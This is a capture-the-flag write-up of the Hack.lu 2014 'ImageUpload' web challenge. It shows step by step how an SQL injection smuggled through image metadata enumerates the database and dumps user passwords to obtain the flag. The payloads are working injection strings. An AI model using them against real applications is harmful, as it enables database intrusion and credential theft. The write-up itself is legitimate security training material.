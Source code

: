 ## Hack.lu CTF 2014 - ImageUpload (web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. 
Therefore, he needs your help. Upload pictures of criminals to this site and help 
the sheriff to arrest them. 
You can make this Wild Wild Web much less wild!!! 

Pictures will be deleted on regular basis!

___

### Solution

The login form is safe (sanitizes SQL injection, and \xbf\x27 exploit not allowed). The 
uploaded image is modified and we displaying image embeds the uploaded image (see images
"agnes 2- despicable me.jpg" and 9abbcf8b9fbb5971a0474cbbda30942e.jpg). So we can not in-
ject PHP code in image, because the image structure is modified.

However when we upload an image we see 5 more fields except the image: Width, Height,
Author, Manufacturer, Model. This reveals that we have an SQL DB to store the images.
So when we upload the image the insert statement should be like this:
```
	INSERT INTO some_table 
	VALUES (image_name, width, height, author, manufacturer, model);
```

We see that width and height have a 0 value, while the other 3 columns are NULL. This
is information from image metadata, so we try to insert code in image metadata: On 
Windows: Select Image -> Right Click -> Properties -> Details -> Set Author to ispo,
and upload the image.

We see the string "ispo" in the author column. Bingo! Now let's try our SQL injection.
What if I insert the name: foo','bar','code')-- ? The query will be:
```
	INSERT INTO some_table 
	VALUES (image_name, 0, 0, foo', 'bar', 'code')--, NULL, NULL);
```

The result will be:
```
	Width	Height	Author	Manufacturer	Model
	0	0	foo	bar		code
```

Now let's try to extract information:	
```
	Author: ispo', (SELECT SCHEMA()), 'bbb')#

	Width	Height	Author	Manufacturer	Model
	0	0	foo	chal		bbb
```

Database name is 'chal'. Let's find the tables from all databases:	
```
	Author: ispo', (SELECT GROUP_CONCAT(table_name) 
			FROM information_schema.tables 
			 WHERE table_schema != 'mysql' AND 
			       table_schema != 'information_schema'), 'bbb')#
```
			 
The Author column will contain the tables: brute,pictures,users. We use GROUP_CONCAT, 
because the SELECT statement should return 1 row and not more. So we merge the rows 
into 1 row. The table we want is users. Let's find its columns:
```
	Author: ispo', (SELECT GROUP_CONCAT(column_name) 
			FROM information_schema.columns 
			WHERE table_schema='chal' AND table_name='users'), 'bbb')#

	Width	Height	Author			Manufacturer	Model
	0	0	id,name,password	chal		bbb
```
			
Nice there are 3 columns. Let's find the rows:
```
	Author: ispo', (SELECT COUNT(*) FROM users), 'bbb')# 
```

So there are 2 rows. Now we can extract all table information with one query:
```
	Author: ispo', (SELECT GROUP_CONCAT(id,',',name,',',password) 
			FROM users LIMIT 1 OFFSET 0), 'bbb')#
```
			
And we get the requested results (see imageUpload.PNG): 
```
	1,sheriff,AO7eikkOCucCFJOyyaaQ,2,deputy,testpw
```

So there are 2 accounts:
```
	sheriff:AO7eikkOCucCFJOyyaaQ
	deputy:testpw
```

We go to the login form, we login with sheriff's credentials, and we get the flag:
	You are sucessfully logged in.
	Flag: **flag{1_5h07_7h3_5h3r1ff}**

___
